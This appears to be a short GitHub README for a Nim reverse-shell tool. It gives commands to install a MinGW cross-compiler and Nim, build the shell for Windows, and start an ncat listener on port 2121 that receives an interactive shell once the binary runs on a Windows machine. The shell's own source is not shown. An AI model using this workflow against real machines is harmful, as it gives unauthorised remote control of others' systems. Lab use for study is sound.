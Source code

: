 # NimShell
Simple Nim reverse shell:

#### Installation 

```bash
sudo apt-get install -y mingw-w64
sudo apt-get install nim
```
#### Building
```bash
nim c -d:mingw revshell.nim
```

<p align="center">
  <img src="https://i.imgur.com/6K1KN48.png">
</p>

#### Lab setup
```bash
sudo ncat -lvp 2121
```
Run on a windows machine and your interactive shell will started
<p align="center">
  <img src="https://i.imgur.com/Ifv2uEc.png">
</p>
